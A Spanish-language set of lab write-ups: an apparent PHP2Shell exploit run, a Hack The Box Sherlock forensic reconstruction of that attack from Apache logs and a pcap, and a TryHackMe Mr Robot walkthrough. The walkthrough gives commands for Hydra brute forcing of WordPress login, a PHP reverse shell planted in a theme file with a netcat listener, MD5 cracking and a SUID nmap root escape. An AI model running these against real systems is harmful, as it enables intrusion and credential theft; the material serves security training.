python3 exploit.py -u http://127.0.0.1:8088/index.php -c 'cat /f>/out/p1' --proof-file out/p1
PROOF:.Salida de la ejecución: chunk base = 0x7dad44400000, libphp base = 0x7dad460b1000,
HTDATA=0x7dad444690d8 ZIF=0x7dad46516370. Las direcciones cambian en cada ejecución (ASLR), por eso el exploit las lee
en vez de adivinarlas. Los comandos se ejecutan como www-data y la bandera obtenida es
THM{b4ilout_l3aves_th3_h3ap_dang1ing} (el propio nombre resume el bug: el bailout deja el heap
colgando).
| Pregunta | Respuesta |
|---|---|
| Campo que activa el upload-progress | PHP_SESSION_UPLOAD_PROGRESS |
Nombre del longjmp ante error fatal | bailout |
| Clase de debilidad (CWE) | CWE-824 |
| Versión de PHP del objetivo | 8.4.26 |
Palabra que imprime /index.php | OK |
| Cabecera que abusa CVE-2026-109618 | Set-Cookie |
| Usuario que ejecuta los comandos | www-data |
| Bandera | THM{b4ilout_l3aves_th3_h3ap_dang1ing} |
| Versión 8.4 que corrige | 8.4.27 |
| Directiva php.ini en 0 que desactiva el disparador | session.upload_progress.enabled |
Nota ética: toda la actividad se realizó en el laboratorio autorizado. No se incluyen detalles del exploit inventados: la descripción técnica procede de la propia sala y del aviso oficial de PHP, y los valores de memoria son los de la ejecución real.

Responsable: Andrey David Morales Díaz (Líder Blue Team / Auditor ISO). Laboratorio: Hack The Box, Sherlock
dOOMs Day (dificultad Easy), referencia oficial
https://roadmap.hackthebox.com/changelog/defend-against-cve-2026-109618-cve-2026-109619-with-dooms-day.
Resumen: se reconstruyó cómo un atacante (192.168.72.1) comprometió un servidor web de desarrollo de DevNotes.org
(192.168.72.50) explotando PHP2Shell, la cadena de CVE-2026-109618 (corrupción por falta de memoria) y CVE-2026-109619
(estado global obsoleto / use-after-free) en PHP 8.4.26. Entre la primera petición maliciosa (08:42:52 UTC) y la shell
remota como www-data (08:43:02 UTC) pasaron 10 segundos. Después el atacante enumeró el sistema, buscó bases de
datos y leyó /var/www/data/devnotes.sqlite. Se respondieron las 12 preguntas del Sherlock con evidencia propia.
El laboratorio entrega un ZIP protegido con contraseña con los registros de Apache2 y una captura de red de la subred.
El análisis se hizo en Kali Linux con herramientas de línea de comandos (grep, awk, sed,
sort, uniq, tshark) y Wireshark. El error.log pesa 484 MB, por lo que no se
abrió con un editor: todas las búsquedas se hicieron con filtros de texto.
cd ~/Downloads/"dOOMs Day"
ls -lh logs/ Capture.pcap
Capture.pcap (257 MB), access.log (147 KB), error.log (484 MB) y other_vhosts_access.log (vacío).Apache se envía a sí mismo peticiones internas (internal dummy connection) para gestionar sus procesos, y en ellas
registra la versión de PHP. Las 140 líneas desde ::1 muestran PHP/8.4.26.
cd logs
grep -o 'PHP/[0-9][0-9.]*' access.log | sort | uniq -c
El aviso oficial de php.net del 21/10/2026 relaciona esa versión con CVE-2026-109618 y CVE-2026-109619, ambas con CVSS 4.0 de 9.2, corregidas en 8.5.12, 8.4.27, 8.3.36 y 8.2.35. La primera permite corrupción de memoria cuando PHP agota la memoria con datos de la petición a medio inicializar; la segunda deja estado interno ligado a memoria ya liberada, que una petición posterior reutiliza. Encadenadas permiten ejecución remota de código sin autenticación, antes de que se ejecute el código de la aplicación.

awk '{print $1}' access.log | sort | uniq -c | sort -rn
grep '^192.168.72.1 ' access.log | awk '{print $4}' | sort | head -1
grep -m1 'PHP_SESSION_UPLOAD_PROGRESS' error.log | cut -c1-200De cuatro orígenes, 192.168.72.145 (245 peticiones) y 192.168.72.164 (259) son usuarios legítimos y ::1 es el propio
servidor. 192.168.72.1 (160 peticiones) no tiene navegación normal: su primera petición es del
28/10/2026 08:42:52, y a las 08:42:58 el error.log (módulo mod_dumpio, que registra los cuerpos de las
peticiones) ya contiene un cuerpo multipart con el campo PHP_SESSION_UPLOAD_PROGRESS, patrón del exploit.

grep -o 'boundary=[A-Z]*' error.log | sort | uniq -c
grep -c '"POST /index.php HTTP/1.1" 200 0' access.logEl exploit envía subidas multipart que nunca termina para dejar ocupados todos los workers de Apache menos uno, y así lograr que sus peticiones siguientes caigan en el mismo proceso. Se identificaron cinco boundaries, cada uno asociado a una fase:
| Boundary | Veces | Fase (interpretación) |
|---|---|---|
ZZZZZZZZZZ | 149 | Ocupar workers (respuesta de la pregunta 3) |
CCCCCCCCCC | 9 | Peticiones que agotan la memoria (con filename="") |
SSSSSSSSSSSSSSSSSS | 2 | Campo PHP_SESSION_UPLOAD_PROGRESS (CVE-2026-109619) |
BBBBBBBBBB | 1 | POST de la fuga de memoria a /api/health.php |
BNDRY12345 | 1 | Observación propia: petición chunked del atacante (08:42:59, pid 94); su función no se pudo determinar con la evidencia disponible |
El access.log registra 149 POST a /index.php con respuesta de 0 bytes, la misma cifra que el boundary
ZZZZZZZZZZ: 149 workers ocupados (pregunta 4). Las horas aparecen desordenadas porque Apache escribe cada línea al
cerrar la petición, con la hora en que empezó: las subidas quedaron abiertas a propósito.



grep -m3 'Allowed memory size of' error.log | cut -c1-250A las 08:42:59 PHP avisa Input variables exceeded 1000 (formularios con miles de campos) y a las 08:43:01.918 y
08:43:02.168 aparece el error fatal Allowed memory size of 134217728 bytes exhausted (128 MB, el memory_limit)
en el worker pid 145. El error ocurre «in Unknown on line 0» porque PHP falla mientras analiza la petición, antes de ejecutar
cualquier script: es la firma del disparo de CVE-2026-109618.

awk '$10 > 100000' access.log
grep -m1 -B4 'PHPSESSID=WWWW' error.log | sed 's/.*(data-HEAP): //' | cut -c1-80El único POST de gran tamaño es POST /api/health.php (08:43:01, 774455 bytes en el access.log). La respuesta
del mismo worker pid 145 incluye Set-Cookie con un valor de 773518 bytes que empieza por
PHPSESSID=WWWWWWWW%FF%FF…%60V%05%26%AE%7F%00%00. Una cookie de sesión normal mide unos 32 caracteres; esta lleva relleno
y bytes de memoria. Los bytes 60 56 05 26 AE 7F 00 00 leídos en little-endian forman 0x00007FAE26055660, con la
forma típica de una dirección de memoria de un proceso Linux de 64 bits: el servidor devolvió parte de su heap, que el atacante usa
para calcular los offsets de la ejecución remota. Respuestas: cookie PHPSESSID, tamaño 773518.


grep -n 'Segmentation fault (11)' error.logHay dos caídas: el worker pid 145 a las 08:46:16 y el pid 170 a las 08:47:42 (respuesta). El pid 145 es el mismo proceso que agotó la memoria y filtró la cookie: su caída es consecuencia de la memoria corrompida por el exploit.

cd ..
tshark -r Capture.pcap -t ud -Y 'tcp contains "www-data"' -T fields \
-e frame.time -e ip.src -e ip.dst -e tcp.dstport -e tcp.stream | head
tshark -r Capture.pcap -q -z follow,tcp,ascii,810 -z follow,tcp,ascii,999 2>/dev/null > shell.txt
grep -n -E 'find /|strings|uname|cat /proc' shell.txtEl primer paquete con la cadena www-data va del servidor 192.168.72.50 al atacante 192.168.72.1, puerto 4444, a
las 04:43:02 -0400 = 08:43:02 UTC (tshark mostró la hora en la zona de Kali, UTC−4). La conexión la inicia el servidor (SYN desde
el puerto 55914), lo que confirma una reverse shell, obtenida menos de un segundo después de la fuga de memoria. Hay dos
sesiones: el stream 810 termina con un RST del atacante y el stream 999 (08:46:29) es la reconexión. Los avisos «Dissector bug,
protocol MIME multipart» de tshark se deben a que los cuerpos malformados del exploit también confunden al analizador.
En la shell, con prompt www-data@29ea26c62b7f:/var/www/html$, el atacante ejecutó cat /proc/version,
uname -a y ps aux (reconocimiento), el comando de la pregunta 12 para buscar bases de datos y, tras reconectar,
strings /var/www/data/devnotes.sqlite:
find / -type f \( -name "*.sqlite" -o -name "*.sqlite3" -o -name "*.db" -o -name "*.db3" -o -name "*.s3db" -o -name "*.sl3" \) 2>/dev/nullEn ps aux el PID 1 es apache2 -DFOREGROUND como root y el hostname es un identificador hexadecimal de 12
caracteres: indicios (no confirmados) de que el servidor corre en un contenedor Docker. Varios workers de Apache arrancaron a las
08:42, durante la ocupación del pool.



tcp.stream eq 810: el SYN sale del servidor hacia el puerto 4444.

| # | Pregunta | Respuesta | Evidencia |
|---|---|---|---|
| 1 | Versión de PHP | 8.4.26 | Fig. R3-2 |
| 2 | Primera petición del atacante | 2026-10-28 08:42:52 | Fig. R3-4 |
| 3 | Boundary de las subidas atascadas | ZZZZZZZZZZ | Fig. R3-5 |
| 4 | Workers ocupados | 149 | Fig. R3-6 |
| 5 | CVE encadenados | CVE-2026-109618, CVE-2026-109619 | Fig. R3-3 |
| 6 | Límite de memoria agotado | 134217728 bytes | Fig. R3-8 |
| 7 | Cookie de la fuga | PHPSESSID | Fig. R3-10 |
| 8 | Tamaño de la cookie | 773518 bytes | Fig. R3-10 |
| 9 | Momento de la RCE | 2026-10-28 08:43:02 | Fig. R3-12 |
| 10 | Puerto de la shell | 4444 | Fig. R3-12, R3-14 |
| 11 | Segunda caída del worker | 2026-10-28 08:47:42 | Fig. R3-11 |
| 12 | Comando para buscar bases de datos | find / -type f \( -name "*.sqlite" … \) 2>/dev/null | Fig. R3-13, R3-16 |
Limitaciones: no se determinó la función de la petición BNDRY12345; la conclusión de que el servidor corre en un
contenedor es un indicio. Las respuestas coinciden con el writeup oficial del Sherlock, usado como guía y validado con la salida
propia de cada comando.

Responsable: Wilson Javier Gómez Mantilla (Operador Red Team). Laboratorio: TryHackMe – Mr Robot CTF
(https://tryhackme.com/room/mrrobot). Enfoque: explotación web y escalada de privilegios.
Resumen: el escenario simula un servidor corporativo con un sitio WordPress desactualizado, sin gestión de parches ni control de acceso robusto. Encadenando configuraciones inseguras se pasó de usuario anónimo a root, obteniendo las tres claves del reto. Toda la actividad se realizó por la VPN autorizada de TryHackMe, desde una Kali Linux.
Se escanearon puertos y servicios sobre la IP objetivo. El servidor expone SSH (OpenSSH 8.2p1), HTTP y HTTPS (Apache); el certificado TLS está autofirmado y vencido desde 2025, lo que confirma un servidor web como principal superficie de ataque.
nmap -sC -sV -p 22,80,443 <IP_víctima>
La consulta de robots.txt reveló dos recursos sensibles sin control de acceso: un diccionario de contraseñas
(fsocity.dic) y la primera clave del reto. Con Gobuster se confirmó que el sitio corre sobre WordPress
(wp-login.php, wp-content, xmlrpc.php).
curl http://<IP_víctima>/robots.txt
curl http://<IP_víctima>/key-1-of-3.txt
gobuster dir -u http://<IP_víctima> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html

Partiendo del contexto del escenario se identificó el usuario válido elliot. Con el diccionario
fsocity.dic (depurado de duplicados) se ejecutó fuerza bruta con Hydra contra el formulario de login, obteniendo la
credencial elliot : ER28-0652.
hydra -l elliot -P fsocity_unique.dic <IP_víctima> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=Location" -t 64
Con acceso al panel de administración se usó el Editor de Temas (Apariencia → Editor) para reemplazar el contenido de
404.php por una reverse shell en PHP (pentestmonkey). Al visitar la ruta del archivo modificado, con un listener de
Netcat a la espera, se obtuvo una shell inversa como usuario daemon: ejecución remota de código.
nc -lvnp 4444
curl http://<IP_víctima>/wp-content/themes/twentyfifteen/404.php
En /home/robot/ había un archivo de lectura pública (password.raw-md5) con el hash MD5 de la
contraseña de robot, mientras que la segunda clave solo era legible por su propietario. El hash se craqueó al instante con John,
obteniendo la contraseña en texto plano; con ella se cambió al usuario robot y se leyó la segunda clave.
cat /home/robot/password.raw-md5
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt
su robot # contraseña: abcdefghijklmnopqrstuvwxyz
Como usuario robot se buscaron binarios con el bit SUID activado y se identificó /usr/local/bin/nmap, una
condición anómala: esa versión antigua de Nmap permite un modo interactivo que posibilita escapar a una shell del sistema
heredando privilegios de root. Con ello se leyó la tercera clave.
find / -perm -4000 -type f 2>/dev/null
nmap --interactive
nmap> !sh
